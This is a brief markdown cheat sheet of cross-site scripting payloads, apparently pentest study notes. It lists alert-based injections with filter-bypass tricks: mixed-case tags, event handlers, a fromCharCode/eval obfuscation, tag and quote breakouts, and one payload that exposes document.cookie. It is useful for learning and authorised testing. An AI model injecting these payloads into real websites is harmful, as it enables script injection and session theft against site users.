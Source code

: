 
### 10 Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`


8- `<script>console.log("test")</script>` |  __Tests if word script is allowed but alert is not__


9- <img src="cc" onerror=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))> | __alert is not allowed__ 


10- `</script><script>alert('XSS');</script>` | __escaping script tags to excute the payload__


11- `';alert('xss');//`  | The apostrophe character is used to escape in PHP __'__


12- 

### Extra Resources:

- [Convert Characters to ASCII Codes](https://www.browserling.com/tools/text-to-ascii)

- [Complete List of XSS Payloads:](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

- 
